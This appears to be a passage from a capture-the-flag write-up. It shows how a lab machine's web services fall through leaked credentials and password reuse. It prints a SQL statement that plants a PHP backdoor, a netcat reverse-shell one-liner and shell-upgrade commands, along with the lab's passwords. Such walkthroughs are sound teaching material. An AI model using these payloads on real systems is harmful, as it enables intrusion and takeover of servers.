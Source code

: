 # Port 443 (HTTPS)

- `https://<IP>/forum/index.php?id=6` leak credentials to access forum as `lmezard`

- User `lmezard` mail address can be found on forum account account info page

- User `lmezard` use same password for `webmail` and `forum`

- User `lmezard` mail box leak credentials to access `phpmyadmin` as `root`

- Adding reverse shell backdoor via `phpmyadmin`:

```sql
SELECT '<?php system("rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc <ip_addr> 4242 >/tmp/f"); ?>' INTO OUTFILE '/var/www/forum/templates_c/backdoor.php'
```

Once connected, we can upgrade our shell into a full TTY:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
#[CTRL+z]
```

```bash
stty raw -echo
fg
#[ENTER]
#[ENTER]
```

We now have a full shell as `www-data`

## Credentials found

### `https://$ip/forum`

| Login | Password |
|-|-|
| `lmezard` | `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/webmail`

| Login | Password |
|-|-|
| `laurie@borntosec.net` | `!q\]Ej?*5K5cy*AJ` |

### `https://$ip/phpmyadmin`

| Login | Password |
|-|-|
| `root` | `Fg-'kKXBj87E:aJ$` |
